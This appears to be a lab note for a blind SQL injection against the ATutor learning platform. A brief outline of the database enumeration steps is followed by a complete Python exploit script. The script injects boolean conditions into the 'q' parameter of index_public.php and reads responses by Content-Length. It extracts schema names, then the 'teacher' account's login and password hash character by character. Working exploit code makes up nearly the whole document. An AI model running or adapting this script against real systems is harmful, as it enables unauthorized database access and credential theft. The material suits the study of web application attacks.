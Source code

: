 Had to find db -> select database()
then schema
then tables
then columns

Looked for tables in code as well.

AT_member seemed most promising


```
import requests
import sys

def searchFriends_sqli(ip, inj_str):
    for j in range(32, 126):
        # now we update the sqli
        target      = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str.replace("[CHAR]", str(j)))
        r = requests.get(target)
        #print r.headers
        content_length = int(r.headers['Content-Length'])
        if (content_length > 20):
            #print (j)
            return j
    return None    

def inject(r, inj, ip):
    extracted = ""
    for i in range(1, r):
        injection_string = "test'/**/or/**/(ascii(substring((%s),%d,1)))=[CHAR]/**/or/**/1='" % (inj,i)
        retrieved_value = searchFriends_sqli(ip,  injection_string)
        if(retrieved_value):
            extracted += chr(retrieved_value)
            extracted_char = chr(retrieved_value)
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
        else:
            print("\n(+) done!")
            break
    return extracted

def main():
    if len(sys.argv) != 2:
        print("(+) usage: %s <target>"  % sys.argv[0])
        print('(+) eg: %s 192.168.121.103'  % sys.argv[0])
        sys.exit(-1)

    ip = sys.argv[1]

    print("(+) Retrieving username....")
    #query = "select/**/user()"
    #query = "select/**/group_concat(0x7c,schema_name,0x7C)/**/from/**/information_schema.schemata"
    #query = "select/**/group_concat(0x7c,table_name,0x7C)/**/from/**/information_schema.tables/**/where/**/table_schema='atutor'/**/and/**/table_name='AT_members'"
    #query = "select/**/group_concat(0x7c,column_name,0x7C)/**/from/**/information_schema.columns/**/where/**/table_schema='atutor'/**/and/**/table_name='AT_members'"
    query = "select/**/login/**/from/**/AT_members/**/where/**/login='teacher'"
    username = inject(50, query, ip)
    print("(+) Retrieving password hash....")
    query = "select/**/password/**/from/**/AT_members/**/where/**/login='teacher'"
    #query = "select/**/database()"
    password = inject(50, query, ip)
    print("(+) Credentials: %s / %s" % (username, password))

```